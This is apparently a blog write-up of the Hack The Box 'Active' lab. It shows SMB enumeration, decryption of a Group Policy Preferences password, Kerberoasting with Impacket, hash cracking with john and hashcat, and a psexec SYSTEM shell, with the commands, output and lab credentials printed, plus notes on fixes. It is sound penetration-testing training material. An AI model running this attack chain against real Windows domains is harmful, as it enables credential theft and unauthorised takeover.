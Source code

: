 ```yaml
---
layout: post
title:  "HTB: Active"
date:   2023-10-04 09:19:20 +0700
tags: [htb,pentesting,ctf]
categories: jekyll update
usemathjax: true
---
```


> ## **Overview**

Active was an example of an easy box that still provided a lot of opportunity to learn. The box was centered around common vulnerabilities associated with Active Directory. There’s a good chance to practice SMB enumeration. It also gives the opportunity to use Kerberoasting against a Windows Domain, which, if you’re not a pentester, you may not have had the chance to do before.

> ## **Enumeration**

### **Port Scan Results**

| IP Address | Ports Open |
| --- | --- |
| 10.10.10.100 | TCP: 53, 88, 135, 139, 389, 445, 464, 593, 636, 3268, 3269, 5722, 9389
|              | UDP: 123, 137 

### **SMB Enumeration - I**

Since this is a Windows host, Enumerating any readable shares can be really useful.

```bash
smbmap -H 10.10.10.100
```

![https://media.discordapp.net/attachments/928373179003600907/1159031050228486154/image.png?ex=651e6748&is=651d15c8&hm=e38254578ebddf83f9564d8a9fd5148a741779776cdbf1cf6dc26490db89aa34&=&width=1144&height=388](https://media.discordapp.net/attachments/928373179003600907/1159031050228486154/image.png?ex=651e6748&is=651d15c8&hm=e38254578ebddf83f9564d8a9fd5148a741779776cdbf1cf6dc26490db89aa34&=&width=1144&height=388)

And we see that we can only access the share *Replication.*

Connecting to the share using **smbclient**

```bash
smbclient //10.10.10.100/Replication
```

![https://media.discordapp.net/attachments/928373179003600907/1159031577737703484/image.png?ex=651e67c5&is=651d1645&hm=c0cd941f3f2ebe0097a0f255d86bf23717c79ba5ca3a814b1b475b22fccee6d5&=&width=1143&height=199](https://media.discordapp.net/attachments/928373179003600907/1159031577737703484/image.png?ex=651e67c5&is=651d1645&hm=c0cd941f3f2ebe0097a0f255d86bf23717c79ba5ca3a814b1b475b22fccee6d5&=&width=1143&height=199)

Once we gain access to the share, we can locate a file named Groups.xml within the directory path 

```bash
**\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\**
```

Upon examining this file, we will discover both a username and an encrypted password.

![https://media.discordapp.net/attachments/928373179003600907/1159035007248126012/4.png?ex=651e6af7&is=651d1977&hm=f5d23c8d8aa4d0c46df8361defd46598f4430774427415844bcc08b3896eb970&=&width=1260&height=150](https://media.discordapp.net/attachments/928373179003600907/1159035007248126012/4.png?ex=651e6af7&is=651d1977&hm=f5d23c8d8aa4d0c46df8361defd46598f4430774427415844bcc08b3896eb970&=&width=1260&height=150)

```bash
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
    <Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/>
  </User>
</Groups>
```

### **GPP Passwords**

Whenever a new Group Policy Preference (GPP) is created, there’s an 
xml file created in the SYSVOL share with that config data, including 
any passwords associated with the GPP. For security, Microsoft AES 
encrypts the password before it’s stored as cpassword. But then Microsoft [published the key](https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx) on MSDN!

Microsoft issued a patch in 2014 that prevented admins from putting 
passwords into GPP. For more 
details, check out this [AD Security post](https://adsecurity.org/?p=2288).

**Decrypting GPP** 

a tool called "gpp-decrypt" that can be utilized for decrypting GPP (Group Policy Preferences) passwords.

![https://media.discordapp.net/attachments/928373179003600907/1159047076789887016/5.png?ex=651e7635&is=651d24b5&hm=044300dbdde47c3cea475a83a299c7ef7f9e9649141413bcf3a7831549248552&=&width=1836&height=114](https://media.discordapp.net/attachments/928373179003600907/1159047076789887016/5.png?ex=651e7635&is=651d24b5&hm=044300dbdde47c3cea475a83a299c7ef7f9e9649141413bcf3a7831549248552&=&width=1836&height=114)

```bash
root@kali# gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

And we got the password **GPPstillStandingStrong2k18**.

### **SMB Enumeration - II**

With a username and password, I can access 3 more shares

There is a Users share that looks interesting

```bash
root@kali# smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.100...
[+] IP: 10.10.10.100:445        Name: 10.10.10.100                                      
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  NO ACCESS
        C$                                                      NO ACCESS
        IPC$                                                    NO ACCESS
        NETLOGON                                                READ ONLY
        Replication                                             READ ONLY
        SYSVOL                                                  READ ONLY
        Users                                                   READ ON
```

Connecting to the SMB share using **smbclient**

```bash
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18
```

And that is enough to get user.txt

> ## Initial Access – Kerberoasting

**Vulnerability Explanation:** Kerberoasting is a technique that allows an attacker to steal the KRB_TGS ticket, that is encrypted with RC4, to brute force application services hash to extract its password.

**Vulnerability Fix:** [Consider using Group Managed Service Accounts](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview) rather than service accounts with static passwords . [Consider upgrading to an Active Directory Domain or forest level](https://adsecurity.org/?p=3377) which supports advanced Kerberos armoring. More information [here](https://www.lepide.com/blog/how-to-prevent-kerberoasting-attacks/)

**Severity: [High](https://capec.mitre.org/data/definitions/509.html)**

**Steps to reproduce the attack:** Since we already possess credentials, we'll use the "GetUserSPNs.py" script from Impacket. This script will enable us to retrieve a list of service usernames linked to regular user accounts and obtain a ticket that I can attempt to crack.

**Proof of Concept**


```bash
root@kali# GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```

It also gives me the ticket, which I can try to brute force decrypt to get the user’s password:

**Cracking the ticket**

With John

```bash
./john admin.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

If youre facing errors, make sure you use the [jumbo version of john](https://github.com/magnumripper/JohnTheRipper).

With Hashcat

```bash
$ hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
```

And we got the administrator password : **Ticketmaster1968**

> ## Administrator Access

As we already have admin creds through kerberoasting, we can get the system shell using psexec.py

```bash
root@kali# psexec.py active.htb/administrator@10.10.10.100
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

Password:
[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file dMCaaHzA.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service aYMa on 10.10.10.100.....
[*] Starting service aYMa.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

![https://cdn.discordapp.com/attachments/928373179003600907/1159058806349778944/image.png?ex=651e8121&is=651d2fa1&hm=3691f9cc6292a3dea0c27e2a66526177f7fd1aad6c00315717d310d7ed537fdc&](https://cdn.discordapp.com/attachments/928373179003600907/1159058806349778944/image.png?ex=651e8121&is=651d2fa1&hm=3691f9cc6292a3dea0c27e2a66526177f7fd1aad6c00315717d310d7ed537fdc&)

**Key Takeaways**

## Have any questions
Do you have any questions? Feel free to reach out to me on [twitter](https://twitter.com/rach1tarora) or on [LinkedIn](https://www.linkedin.com/in/rach1tarora/).